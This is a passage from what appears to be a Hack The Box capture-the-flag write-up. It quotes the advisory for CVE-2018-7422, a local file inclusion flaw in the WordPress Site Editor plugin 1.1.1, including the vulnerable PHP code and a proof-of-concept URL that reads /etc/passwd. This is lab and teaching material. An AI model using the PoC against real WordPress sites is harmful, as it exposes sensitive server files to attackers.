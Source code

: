 Got the flag:

```
HTB{unauTh_d0wn10ad!}
```

#### Checking for LFI vulnerable plugin

If we now search for:

```
site-editor 1.1.1 exploit
```

We get this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250220143320.png)

Which means, we got our vulnerable plugin and its version:

```
1.1.1
```

#### Exploiting the LFI

***

Now, let's use the lfi:

```
Product: Site Editor Wordpress Plugin - https://wordpress.org/plugins/site-editor/
Vendor: Site Editor
Tested version: 1.1.1
CVE ID: CVE-2018-7422

** CVE description **
A Local File Inclusion vulnerability in the Site Editor plugin through 1.1.1 for WordPress allows remote attackers to retrieve arbitrary files via the ajax_path parameter to editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php.

** Technical details **
In site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php:5, the value of the ajax_path parameter is used for including a file with PHP’s require_once(). This parameter can be controlled by an attacker and is not properly sanitized.

Vulnerable code:
if( isset( $_REQUEST['ajax_path'] ) && is_file( $_REQUEST['ajax_path'] ) && file_exists( $_REQUEST['ajax_path'] ) ){
    require_once $_REQUEST['ajax_path'];
}

https://plugins.trac.wordpress.org/browser/site-editor/trunk/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?rev=1640500#L5

By providing a specially crafted path to the vulnerable parameter, a remote attacker can retrieve the contents of sensitive files on the local system.

** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

** Solution **
No fix available yet.

** Timeline **
03/01/2018: author contacted through siteeditor.org's contact form; no reply
16/01/2018: issue report filled on the public GitHub page with no technical details
```